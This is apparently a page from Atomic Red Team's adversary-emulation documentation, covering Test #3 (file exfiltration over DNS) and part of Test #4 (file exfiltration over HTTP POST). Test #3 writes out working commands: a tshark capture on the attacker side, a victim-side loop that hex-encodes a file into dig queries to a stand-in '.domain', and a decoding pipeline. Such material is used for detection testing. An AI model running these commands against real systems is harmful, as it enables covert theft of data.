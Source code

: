<br/>
<br/>

## Atomic Test #3 - Exfiltration Over Alternative Protocol - DNS
Exfiltration of specified file over DNS protocol.

**Supported Platforms:** Linux


**auto_generated_guid:** c403b5a4-b5fc-49f2-b181-d1c80d27db45





#### Run it with these steps! 
1. On the adversary machine run the below command.

    tshark -f "udp port 53" -Y "dns.qry.type == 1 and dns.flags.response == 0 and dns.qry.name matches \\".domain\\"" >> received_data.txt

2. On the victim machine run the below commands.

    xxd -p input_file > encoded_data.hex | for data in `cat encoded_data.hex`; do dig $data.domain; done

3. Once the data is received, use the below command to recover the data.

    cat output_file | cut -d "A" -f 2 | cut -d " " -f 2 | cut -d "." -f 1 | sort | uniq | xxd -p -r







<br/>
<br/>

## Atomic Test #4 - Exfiltration Over Alternative Protocol - HTTP
Exfiltration of specified file over HTTP.
Upon successful execution, powershell will invoke web request using POST method to exfiltrate notepad.exe to a remote address (default http://127.0.0.1). Results will be via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** 6aa58451-1121-4490-a8e9-1dada3f1c68c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path to file to exfiltrate | path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| ip_address | Destination IP address where the data should be sent | string | http://127.0.0.1|
